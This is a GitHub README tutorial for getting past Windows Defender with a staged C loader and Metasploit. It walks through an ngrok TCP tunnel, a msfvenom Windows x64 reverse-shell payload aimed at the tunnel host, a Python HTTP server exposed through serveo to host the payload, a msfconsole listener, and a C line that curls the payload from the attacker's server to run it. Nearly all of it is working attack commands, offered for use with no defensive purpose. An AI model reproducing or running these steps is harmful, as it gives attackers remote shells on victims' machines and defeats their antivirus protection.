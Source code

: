 # Bypass-Windows-Defender
Bypass Windows Defender with a staged C code &amp; metasploit framework

#### developed by L0PA

 ### Bypass Step's:
   - Create a TCP Tunnel: Set up a TCP tunnel using Ngrok to expose the port for the payload.
   - Generate Payload: Use msfvenom to create the payload in .bin format.
   - Start Python Server: Launch a Python HTTP server in the same directory where the payload is located.
   - Expose Server Online: Use Serveo to make the server accessible online.
   - Set up Listener: Use msfconsole to listen on the specified TCP port.
   - Develop C Code: Write the C code to fetch and execute the payload.
   - Compile and Run: Compile the C code and execute.
##

### Tutorial

- Create the tcp tunnel on the port 4444
  ```
  sudo ngrok tcp 4444
  ```
- Copy the IP and the PORT of the server 
  ```
   - IP: 4.tcp.eu.ngrok.io
   - PORT: 15819
  ```

<p align="center">
    <img src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/ngrok-tcp.jpg">
   </p>

- Create the .bin payload using msfvenom 
  ```
   - msfvenom -p windows/x64/shell_reverse_tcp LHOST=4.tcp.eu.ngrok.io LPORT=15819 -f raw -o payload.bin
  ```

- Launch a Python HTTP server in the same directory where the payload is located 
  ```
   - python -m http.server 8090
  ```

  - Create the serveo key and expose python server using a serveo tunnel
  ```
   - ssh-keygen -t rsa -b 4096 -f ~/.ssh/serveo_key
   - ssh -i ~/.ssh/serveo_key -R yourServer:80:localhost:8090 serveo.net
  ```

  - Create the main.c file and modify the "command" variable with your server
  ```
   - char *command = "curl https://yourServer.serveo.net/payload.bin";
  ```

  <p align="center">
    <img src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/ngrok-tcp.jpg">
   </p>
